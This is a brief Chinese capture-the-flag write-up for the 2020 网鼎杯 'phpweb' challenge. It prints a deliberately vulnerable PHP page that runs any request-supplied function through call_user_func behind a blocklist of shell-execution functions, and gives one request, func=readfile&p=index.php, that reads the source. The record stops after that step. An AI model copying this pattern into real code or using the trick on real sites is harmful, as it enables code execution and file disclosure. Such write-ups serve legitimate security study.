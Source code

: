 https://www.jianshu.com/p/076c5b422c96

## [网鼎杯 2020 朱雀组]phpweb

index.php

```php

    <?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>

```

看题目就可能是调用参数执行函数。

```
func=readfile&p=index.php
```

读取源代码。
